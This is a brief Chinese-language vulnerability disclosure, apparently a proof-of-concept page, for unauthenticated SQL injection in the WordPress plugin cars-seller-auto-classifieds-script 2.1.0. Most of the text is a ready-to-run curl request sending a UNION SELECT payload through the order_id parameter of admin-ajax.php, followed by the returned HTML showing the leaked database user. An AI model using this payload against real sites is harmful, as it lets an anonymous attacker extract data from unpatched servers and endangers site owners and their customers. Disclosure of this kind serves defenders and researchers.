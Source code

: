 簡介
----

插件名稱：wp-plugin：cars-seller-auto-classifieds-script

受影響的版本：2.1.0（如果有，則可能是較低版本）

漏洞：注入

所需的最低訪問級別：未認證

POC
---

    curl 'http://<Hostname>/wp-admin/admin-ajax.php' \
      --data-raw 'action=request_list_request&order_id=-1662 UNION ALL SELECT NULL,NULL,current_user(),current_user(),current_user(),NULL,current_user(),current_user(),NULL-- -' \
      --compressed \
      --insecure


         <h1>Request Details</h1>
            <table style=" border: 1px solid #999;width:96%" class="order_detail">
                <tr>
                    <td>Request Id</td><td></td>
                </tr>
                <tr>
                    <td>Car Title</td><td>Untitled</td>
                </tr>
                <tr>
                    <td>Name</td><td>bob@localhost bob@localhost</td>
                </tr>
                <tr>
                    <td>Email</td><td>bob@localhost</td>
                </tr>
                <tr>
                    <td>Phone</td><td>bob@localhost</td>
                </tr>
                <tr>
                    <td>Message</td><td>bob@localhost</td>
                </tr>
                <tr>
                    <td colspan="2" align="center"><a href="mailto:bob@localhost" style="background: #2ea2cc;border-color: #0074a2;-webkit-box-shadow: inset 0 1px 0 rgba(120,200,230,.5),0 1px 0 rgba(0,0,0,.15);box-shadow: inset 0 1px 0 rgba(120,200,230,.5),0 1px 0 rgba(0,0,0,.15);color: #fff;text-decoration: none;vertical-align: baseline;display: inline-block;text-decoration: none;font-size: 13px;line-height: 26px;height: 28px;margin: 0;padding: 0 10px 1px;cursor: pointer;border-width: 1px;
    border-style: solid;-webkit-appearance: none;-webkit-border-radius: 3px;border-radius: 3px;white-space: nowrap;-webkit-box-sizing: border-box;-moz-box-sizing: border-box;box-sizing: border-box;">Reply</a></td>

                </tr>

            </table>
            <p style="margin-top:20px; text-align:right;"><a href="#" id="close">Close</a></p>